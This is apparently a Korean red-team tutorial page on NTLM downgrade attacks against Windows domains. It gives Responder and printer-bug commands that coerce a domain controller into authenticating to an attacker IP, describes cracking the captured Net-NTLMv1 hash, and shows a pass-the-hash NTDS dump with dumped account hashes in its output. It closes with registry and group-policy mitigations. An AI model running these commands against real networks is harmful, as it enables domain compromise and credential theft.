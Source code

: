 # NTLM 다운그레이드

LLMNR, Nbt-NS, mDNS 포이즈닝 공격이나 강제 인증 공격으로 얻어진 Net-NTLMv1 해시들은 특정 조건이 맞을 때 NTLM 해시로 다운그레이드 공격을 할 수 있다. 다운그레이드 공격은 (복잡한) 암호학적 공격 (Cryptographic Attack) 관련된 공격이기 때문에 이 글에서는 설명하지 않는다. 관련 공격은 [이 레퍼런스](https://github.com/evilmog/ntlmv1-multi)를 참고하면 된다. 다운그레이드 해 얻어진 NTLM 해시는 Pass-the-Hash (PTH)을 통해 인증에 사용된다.

### 전제 조건

* 포이즈닝이나 강제 인증 공격으로 인증 트래픽과 해시를 얻을 것
* 해시를 얻기 전 NTLM Challenge 를 1122334455667788 로 설정할 것
* 얻은 해시가 Net-NTLMv1 일 것 (`HKLM\System\CurrentControlSet\Control\Lsa\LmCompatibilityLevel` 가 0, 1, 2 일 때)
* Responder의 `--disable-ess` 등의 플래그 사용으로 Extended Session Security가 비활성화 된 Net-NTLMv1 해시일 것

### 실습

{% tabs %}
{% tab title="리눅스" %}
간단한 PoC를 위해 프린터 버그로 강제 인증을 실행하고, Responder로 해시를 받는다.

```
# Responder 실행 
responder -I <NIC> -v --disable-ess 

# 프린터버그 실행 
git clone https://github.com/dirkjanm/krbrelayx
python3 printerbug.py '<domain>/<user>:<pass>'@<fqdn/IP> <attackerIP>
```
{% endtab %}

{% tab title="윈도우-비컨" %}
Inveigh + SpoolSample 혹은 Petitpotam 을 이용
{% endtab %}
{% endtabs %}

![앞 뒤가 똑같은 1577](../.gitbook/assets/ntlm.png)

ESS가 비활성화된 Net-NTLMv1 은 `:` 를 기준으로 같은 문자열이 나온다. 이제 이 문자열을 `NTHASH:(문자열)` 형태로 `crack.sh` 라는 홈페이지에 첨부를 하면 NTLM 문자열을 받아올 수 있다.

> 모의해킹을 진행하거나 레드팀 작전 수행 시 고객사 네트워크에서 얻은 해시를 랜덤한 홈페이지에 업로드 하면 안된다. 이 페이지의 실습은 연습용이기 때문에 crack.sh를 사용한다.
>
> 실무였다면 crack.sh가 아니라 hashcat을 이용해 Net-NTLMv1 -> NTLM 다운 그레이드를 실행한다

![](<../.gitbook/assets/ntlmv1-crack-sh (1).png>)

이런식으로 첨부하면 이메일로 다운그레이드 된 NTLM 해시가 온다. 이제 이 해시를 이용해 PTH를 해 사용자 인증을 한다.

이 실습에서는 강제 인증을 통해 도메인 컨트롤러의 머신 계정 NTLM 해시를 얻었다. 따라서 이를 이용해 NTDS 덤프 공격을 실행한다.

```
┌──(root㉿kali)-[/opt/NetNTLMtoSilverTicket]
└─# cme smb 192.168.40.150 -u "DC01$" -H '01d90becd940616e8d0e7540f5e725dc' -d choi.local --ntds 
SMB         192.168.40.150  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:choi.local) (signing:True) (SMBv1:False)
SMB         192.168.40.150  445    DC01             [+] choi.local\DC01$:01d90becd940616e8d0e7540f5e725dc 
SMB         192.168.40.150  445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         192.168.40.150  445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         192.168.40.150  445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
< ... > 
```

### 대응 방안

NTLM 다운그레이드 공격의 근본적 원인은 바로 타겟 호스트가 Net-NTLMv1 해시를 반환했다는 것이다. 윈도우 10과 윈도우 서버 2016 이후 기본적으로 Net-NTLMv2 를 사용하도록 되어있지만, 아직도 많은 네트워크에서는 하위 호환성을 위해 Net-NTLMv1 이나 심지어는 NTLM 해시를 사용하도록 되어있는 곳도 있다.

따라서 하위 호환성 테스트를 거친 뒤 Net-NTLMv1 을 사용하는 프로세스나 어플리케이션이 없다면 모든 호스트에서 Net-NTLMv2 를 사용하도록 설정한다.

```
# 레지스트리
HKLM\System\CurrentControlSet\Control\Lsa\LmCompatibilityLevel 
- 3 이상으로 설정

# 그룹 정책 
Computer Configuration\Windows Settings\Security Settings\Local Policies\Security Options\Network security: LAN Manager authentication level
- 3 이상으로 설정 
```

### 레퍼런스

{% embed url="https://github.com/dirkjanm/krbrelayx" %}

{% embed url="https://github.com/evilmog/ntlmv1-multi" %}

{% embed url="https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level" %}
